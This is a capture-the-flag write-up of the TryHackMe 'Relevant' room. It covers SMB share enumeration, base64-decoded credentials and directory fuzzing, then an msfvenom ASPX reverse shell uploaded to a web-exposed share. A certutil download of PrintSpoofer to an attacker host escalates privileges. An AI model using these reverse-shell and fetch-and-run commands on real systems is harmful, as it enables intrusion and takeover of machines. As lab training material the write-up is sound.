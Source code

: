 ```yaml
---
layout: post
title: "Relevant"
date: 2022-10-06
categories: [Tryhackme, Medium-THM]
tags: [ftp, impacket, dirsearch, backdoor, aspx, printspoofer, base64]
image: ../../assets/img/posts/relevant.png 

---
```


## Description

Penetration Testing Challenge

|**Room**|[Revelant](https://tryhackme.com/room/relevant)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Medium|
|**Creator**|[TheMayor](https://tryhackme.com/p/TheMayor)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.82.167 --range 0-65535 --ulimit 5000 -- -sVC -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/187020776-948b7436-226a-4f05-ba31-abf713b60198.png)
![image](https://user-images.githubusercontent.com/67465230/187020787-03cfbdd9-0f96-46d3-945f-89a653f002c8.png)

Scan result shows that port 80 is running Microsoft IIS webserver, port 135 is running MS RPC service, port 139,445 are running SMB service, port 3389 is running RDP service, port 49663 is also running Microsoft IIS server, port 49667,46669 is running MS RPC service. 

Let's start enumeration by listing the available shares using `smbclient` tool,

```bash
smbclient -L \\\\10.10.82.167\\
```

![image](https://user-images.githubusercontent.com/67465230/187020822-9f843144-4389-4f61-9ee2-ba5db5ef9542.png)

There is a share named `nt4wrksv` available on the network so let's try to access it if we can,

```bash
smbclient \\\\10.10.82.167\\nt4wrksv
```

![image](https://user-images.githubusercontent.com/67465230/187020829-9bc7e69b-6f17-4a25-a319-d825d9f3beba.png)

We now have access to the share. Listing the files and there I get to know that a file named **passwords.txt** exist. So I decided to download this file using the command below, 

```bash
get passwords.txt
```

Reading the content of the file and there I saw that some random string placed in the file,

```bash
batcat passwords.txt
```

![image](https://user-images.githubusercontent.com/67465230/187020836-dfe32756-f19d-4bd0-8ecd-b290db4b28e5.png)

I tried to decode the string and got the credentials for bob and bill user,

```bash
echo '<base64-string>' | base64 -d
```

![image](https://user-images.githubusercontent.com/67465230/194379962-dd50507a-8f13-4a94-baa3-c32af7e912ad.png)

Using the psexec tool from python3-impacket suite, we can try to check if we get the shell with bob user,

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py bob:'<pass>'@10.10.248.201 
```

![image](https://user-images.githubusercontent.com/67465230/187020863-2bd3a944-c64b-429d-aca8-76b0c96a8a92.png)

Trying again with bill user,

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py bill:'<pass>'@10.10.248.201 
```

![image](https://user-images.githubusercontent.com/67465230/187020947-43a55ee8-a4ea-4302-a7a0-44187abfaae2.png)

After running this command, there is a message shown that **Authenticated as Guest, Aborting** which means using this username, we can't create a session or simply, these are fake credentials just for rabbit hole.

So, now, let's fuzz the directories using dirsearch,

```bash
dirsearch -u http://$IP/ -x 400,500 -t 50 -w /usr/share/seclists/Discovery/Web-Content/common.txt 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/187020975-4a4b1060-4a6c-476e-9636-259abe4c6887.png)

but here, we can't find anything.

I ran dirsearch on port 49663 to fuzz directories and there I got 2 hidden directories, 

```bash
dirsearch -u http://$IP:49663/ -x 400,500 -t 50 -w /usr/share/seclists/Discovery/Web-Content/common.txt 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/187021007-eedb5fb5-0858-4403-810b-87d738b88e4f.png)

The first one didn't actually got me anything but second one was interesting.

Navigating to `http://$IP:49663/nt4wrksv`, I got to know that this is same as share available on the network. So this might also mean that the share can be accessed over the web. So I tried to access the password file in share by navigating to `http://$IP:49663/nt4wrksv/passwords.txt` and I can see the content of the file I accessed some time ago,

![image](https://user-images.githubusercontent.com/67465230/187021040-a875a35e-752b-4650-b59c-5300271d7631.png)

This seems like share is writable to anyone and can be accessed over the web. So I tried to drop the text file on the share and see if I can access it,

```bash
echo 'Hello Hellfire0x01' > file.txt
smbclient \\\\$IP\\nt4wrksv
put file.txt
```

![image](https://user-images.githubusercontent.com/67465230/187021048-afc2ba4c-10c2-4ea4-a9ed-b2150845cb51.png)

Let's try to access the file over the web and we're successful in doing that,

```bash
curl http://$IP:49663/nt4wrksv/file.txt
```

![image](https://user-images.githubusercontent.com/67465230/187021138-40f8dbae-09f9-434b-adfd-5f29fa255177.png)

Now that we know if we drop a file on the share, it can be accessed over the internet. So let's make a payload using `msfvenom` and drop it on share,

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.11.12 LPORT=4444 -f aspx -o shell.aspx
```

![image](https://user-images.githubusercontent.com/67465230/187021149-97f01cbe-819f-4208-baf3-462d443e08b6.png)

Start the listener using `nc -nvlp 4444` and access the share to drop the payload,

```bash
smbclient \\\\10.10.77.88\\nt4wrksv
put shell.aspx
```

![image](https://user-images.githubusercontent.com/67465230/187021162-ef80f7e9-d904-4242-b741-4f799b540ab1.png)

Let's issue the request to the shell.aspx and we'll get the reverse shell,

```bash
curl http://10.10.77.88:49663/nt4wrksv/shell.aspx
```

![image](https://user-images.githubusercontent.com/67465230/187021176-9f406eea-94b4-46f2-be24-022e9aa550f3.png)

Navigating to Bob user directory and there I got the user.txt flag,

```cmd
cd Users/Bob/Desktop
dir
```

![image](https://user-images.githubusercontent.com/67465230/187021187-1f9f9a16-f986-4458-b83d-b9864e177a4e.png)

Now comes the privilege escalation. Let's check what privileges we have,

```cmd
whoami /priv
```

![image](https://user-images.githubusercontent.com/67465230/187021194-485c7f9e-99b0-433c-a846-5576656fedf1.png)

SeImpersonate privileges, which can commonly be used to escalate using a potato attack, or with incognito if impersonation tokens exist. However, DCOM is disabled on this server which prevents potato attacks, and there are no tokens to impersonate. 

So, to exploit this vulnerability, we can use the new exploit that came out [printspoofer-abusing-impersonate-privileges](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) which exploits a vulnerability in Windows where certain service accounts are required to run with elevated privileges utilizing the SeImpersonate privilege.

We can download the [PrinterSpoofer.exe](https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe) executable and see the usage of this exploit,

![image](https://user-images.githubusercontent.com/67465230/187021202-b933d36a-f8dd-418d-8fa0-2011ca15156b.png)

So I downloaded the executable file on the machine using certutil command and then I execute the command to escalate my privilege,

```bash
certutil -urlcache -f http://10.9.11.12:8000/PrintSpoofer.exe printspoofer.exe

printspoofer.exe -i -c cmd

whoami
```

![image](https://user-images.githubusercontent.com/67465230/187021234-36a7cdcf-d6ce-4329-9ff4-6a13b23941ad.png)

Navigating to Administrator user desktop directory, there we can find root flag,

```cmd
cd c:/Users/Administrator/Desktop
dir
```

![image](https://user-images.githubusercontent.com/67465230/187021307-28f3ac78-78b6-4791-9601-06e18d0745c4.png)
